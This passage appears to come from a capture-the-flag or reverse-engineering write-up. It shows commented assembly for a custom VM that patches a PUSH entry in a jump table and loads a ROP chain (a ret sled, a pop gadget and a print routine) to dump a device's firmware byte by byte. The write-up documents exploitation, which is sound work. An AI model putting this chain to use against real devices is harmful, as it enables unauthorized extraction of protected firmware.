 The above chain works for printing one byte / string. In order to print all the firmware, an outer logic is needed which detects the reset and re-issues the ROP chain by modifying every time the address to dump.

This is the VM code which triggers this ROP chain:

```
; set the base segment to point to the PUSH
; implementation address in the jump table (0x16b)
XOR BS, BS
MOVH R3, 0x0001
MOVL R3, 0x6b00
XOR BS, R3
XOR R0, R0

; set lower R4 to the stack-moving gadget
; which is 0x14b0 = (0x293c+0x24) / 2
MOVL R4, 0x14b0

; the higher part is set to the subsequent
; value found in the jump table, to avoid
; overwriting with garbage on our 32-bits STORE
MOVH R4, 0xfb02

; store the jump table patch
ST R0, R4

; put the ROP chain in the registers, beware of
; the aligment: AABBCCDD, will become
; 0xAA..
; 0xCCBB
; 0x..DD
; (this took me some time to figure it out)
MOVL R0, 0x02e7  ;
MOVH R0, 0x02e7  ;
MOVL R1, 0x02e7  ;
MOVH R1, 0x02e7  ; ret sled
MOVL R2, 0x02e7  ;
MOVH R2, 0x02e7  ;
MOVL R3, 0x02e7  ;
MOVH R3, 0x02e7  ;
MOVL R4, 0x02e7  ;

; here 0xeeff is the address to be dumped
; this must be replaced with the correct one
; by the outer logic
MOVH R4, 0xee68  ; pop r29; pop r28; ret 
MOVL R5, 0x02ff
MOVH R5, 0x0066  ; print from r28:r29
MOVL SP, 0x0000
MOVH SP, 0x0000  ; reset

; trigger the ROP chain by executing
; the patched PUSH
PUSH R0
```
